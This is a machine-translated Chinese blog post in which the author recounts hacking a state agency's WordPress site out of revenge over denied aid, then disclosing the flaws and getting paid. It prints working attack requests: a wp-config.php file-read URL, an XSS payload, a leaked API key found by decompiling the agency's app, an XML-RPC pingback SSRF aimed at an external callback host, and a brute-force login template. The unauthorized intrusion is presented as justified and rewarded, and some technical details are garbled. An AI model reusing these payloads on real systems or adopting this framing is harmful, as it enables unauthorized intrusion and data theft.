

# 我黑了一个重要的国有机构，并因此获得报酬

> 原文：<https://infosecwriteups.com/i-hacked-an-important-state-owned-agency-and-got-paid-for-it-83f83aa02158?source=collection_archive---------0----------------------->

## 一个当黑帽子变成白帽子的故事。


在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上 [NeONBRAND](https://unsplash.com/@neonbrand?utm_source=medium&utm_medium=referral) 拍摄的照片

在这次疫情的开始，并不是所有人都期待它会有这样的结果。太多人失业了。有些人甚至因为收入低而结束了他们的爱情关系，这总是给任何夫妇带来混乱。即使我没有丢掉工作，我也很难支付账单。为此，我请求我国政府提供一些帮助。不像在美国，人们靠这个致富。有些人甚至购买兰博基尼汽车。我国只向我们提供了 200 到 600 人，而且是一次性的。后者只有在你有家庭的情况下。

# 一切是如何开始的

我认为我有权得到帮助，所以我向他们要了 200 英镑。我知道这不多，但有总比没有好。但是，就像来自政府的任何帮助一样，总有一个陷阱。他们要求人们在某一天之前递交申请表，我照做了。快进到九月，在许多电话和电子邮件之后，他们回复我说他们的帮助仅限于几个人的申请，而我的申请来得太晚了，显然是个谎言。因为他们让我们做的那天我就做了。这只能解释为—你只能靠你自己了！

> *注:出于明显的原因，我将称他们的网站为*[*https://www.campo.gov*](https://www.campo.gov)

# 复仇！

在他们发给我的电子邮件中，告诉我为什么我没有得到帮助，他们让我去他们的网站看看这个决定背后的原因。在这一点上，我不得不说实话。我不在乎也不想听别的。我唯一的想法是——他们会后悔的。

当我开始检查他们的网站时，我发现了一个无人维护的登录面板。了解了这个国家的 IT 历史，看到这个网站是如何被漏洞感染的，从简单的 [**点击劫持**](https://en.wikipedia.org/wiki/Clickjacking) 到[](https://en.wikipedia.org/wiki/Cross-site_scripting)**和 [**RCE**](https://en.wikipedia.org/wiki/Arbitrary_code_execution) ，对我来说并不意外。**

# **该过程**

**以下是我在他们网站上发现的一些攻击和漏洞。我发现了许多其他的，但是由于它们的重要性，与众不同，我故意把它们放了出来。**

# **高级访问管理器**

**5.9.9 之前的版本允许读取任意文件，而不检查是否允许用户读取给定文件。通过这种方式，人们可以下载**wp-config.php**文件并访问数据库，这个数据库在许多服务器上都是公开的。**

```
[https://www.campo.come/?aam-media=wp-config.php](https://www.campo.come/?aam-media=wp-config.php)
```

**使用这段代码，我可以下载他们的 wp-config.php**给我更多的深度信息，继续进行更复杂的攻击。****

# **HTML 注入**

**HTML 注入攻击可以用于两个不同的目的。**

*   **更改显示的网站外观。**
*   **窃取他人的身份。**

```
<html>
<body>
<script>
alert('Hello, world!');
</script>
</body>
</html>
```

**我将这段代码发布到他们的评论区并保存，显示一个弹出窗口，消息是“Hello world！”在页面上加载。**

**该漏洞可能允许攻击者注入 **html** 标签并(可能)执行 JavaScript，从而导致窃取用户会话。**

> **注意:我在亚特兰大用同样的方法赚了 600 美元。**

# **谷歌地图 API 密钥**

**泄露的 API 密匙意味着任何人都可以并且将会误用它们。为了克服潜在的超额账单问题，开发人员为这些 API 设置了预算限制。当超过这些限制时，会导致拒绝服务攻击。**

```
[https://maps.googleapis.com/maps/api/staticmap?center=40.714728,-73.998672&zoom=12&size=2500x2000&maptype=roadmap&key=GOOGLE_MAPS_KEY_HERE](https://maps.googleapis.com/maps/api/staticmap?center=40.714728,-73.998672&zoom=12&size=2500x2000&maptype=roadmap&key=GOOGLE_MAPS_KEY_HERE)
```

****

# **我是怎么找到它的？**

**我将他们的移动 android apk 下载到我的 MacBook 上，并使用以下命令对其进行反编译(Mac OS)**

```
User@MB$ brew install apktoolUser@MB$ cd path/to/campo.apkUser@MB$ apktool d campo.apk
I: Using Apktool on campo.apk
I: Loading resource table...
I: Decoding AndroidManifest.xml with resources...
I: Loading resource table from file: 1.apk
I: Regular manifest package...
I: Decoding file-resources...
I: Decoding values */* XMLs...
I: Copying assets and libs...
I: Copying unknown files...
I: Copying original files...
```

**一旦 apk 被反编译成文件 **string.xml** 就是我找到 google 地图键的地方。现在大部分大公司都不会把这个当做有价值的报告来接受。**

**由于这不是一家主持任何类型的 Bug-Bounty 项目的公司，这将意味着他们不知道如何处理这些事情。一切都取决于你如何接近他们，告诉他们你刚刚发现的弱点。**

# **XML-RPC**

**XML-RPC 是一个支持 WordPress 和其他系统之间通信的规范。通过标准化这些通信，使用 HTTP 作为传输机制，XML 作为编码机制。与 **XML-RPC** 相关的主要弱点是**暴力攻击**。攻击者可以尝试使用 **xmlrpc** 登录 **WordPress** 。 **php。****

```
[xmlrpc.php](https://www.campo.com/wordpress/xmlrpc.php)
```

**在我的浏览器中打开它发出了 GET 请求。但是我需要一个 POST，使用 **BurpSuite** 我调用了一个 POST 请求，得到了类似这样的东西。**

# **发布请求:**

```
POST /xmlrpc.php HTTP/1.1
Host: [campo.com](http://example.com)
Content-Length: 480<?xml version="2.0" encoding="utf-8"?> 
<methodCall> 
<methodName>system.listMethods</methodName> 
<params></params> 
</methodCall>
```

# **回应与此类似:**

```
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 17:13:30 GMT
Server: Apache
Connection: close
Content-Length: 472
Content-Type: text/xml; charset=UTF-8<?xml version="2.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
```

# **功勋😃**

# **跨站点端口攻击**

**为了在列出所有方法后执行回调，我使用了以下字符串来进行**端口扫描，**也称为 **xspa(跨站点端口攻击)****

```
<value><string>“***pingback.ping****”*</value></string>
```

**[**requestbin**](https://requestbin.com/) 给我提供了 URL 作为回拨:**

```
POST /xmlrpc.php HTTP/1.1
Host: campo[.com](http://example.com)
Content-Length: 2348<?xml version="2.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>[https://17dcbdb75.m.pipedream.net](https://17a793c614aeef762cf86b6abdcbdb75.m.pipedream.net)</string></value>
</param>
<param>
<value><string>[https://campo.com/](https://example.com/)</string></value>
</param>
</params>
</methodCall>
```

# **回应:**

```
HTTP/1.1 200 OK
Date: Mon, 01 Jul 2019 21:53:56 GMT
Server: Apache
Connection: close
Content-Length: 3970
Content-Type: text/xml; charset=UTF-8<?xml version="2.0" encoding="UTF-8"?>
<methodResponse>
  <fault>
    <value>
      <struct>
        <member>
          <name>faultCode</name>
          <value><int>0</int></value>
        </member>
        <member>
          <name>faultString</name>
          <value><string></string></value>
        </member>
      </struct>
    </value>
  </fault>
</methodResponse>
```

**在 [**requestbin**](https://requestbin.com/) 输出面板获取服务器内部信息。**

> ***注意:要做到这一点，你的回答需要不同于* `*<value><int>0</int></value>*`**

# **暴力攻击**

**使用 **XML-RPC** 绕过对 WordPress 的强力攻击中的请求限制或阻塞**

# **请求:**

```
POST /xmlrpc.php HTTP/1.1
Host: [campo.com](http://example.com)
Content-Length: 235<?xml version="2.0" encoding="UTF-8"?>
<methodCall> 
<methodName>wp.getUsersBlogs</methodName> 
<params> 
<param><value>\{\{username\}\}</value></param> 
<param><value>\{\{password\}\}</value></param> 
</params> 
</methodCall>
```

****响应:****

**从我收集的信息中，我发现了两个**用户名。但是这还不足以侵入他们的管理面板，至少不用这种方法。****

# **黑色帽子变成白色**

**不知何故，我为那些可能泄露个人信息的人感到难过。最后，我也是其中之一。我停下来，发了一封电子邮件，告诉公司我所有的发现。但正如我所料，他们甚至不在乎回复。在几周的等待和发现更多东西后，我决定给公司打电话，直接和他们谈。电话里的人不知道我在说什么。她问我的信息，并告诉我，她会设法让我与维护他们网站的人联系。**

**那个电话打了四天后，他们的安全主管才打回来。她开始询问我的发现，我是谁，以及我是如何发现这些漏洞的。打了几分钟电话后，她明白事情很严重。这需要尽快解决。更糟糕的是，就在几个月前，他们最重要的网站也因为同样的问题被关闭了。**

# **结论**

**在结束我们的电话交谈之前，她感谢我所做的一切，感谢我打电话给她，告知他们的员工这些漏洞。她再次感谢我，并告诉我，我可能会接到更多的电话，询问更多关于这些虫子的信息。长话短说，在接到那个电话的两个星期后，我收到了最初的 200 英镑，外加我所发现的奖金。这一课只是告诉我们，即使当我们想伤害别人时，我们也可以把事情变得更好，做一些好事。**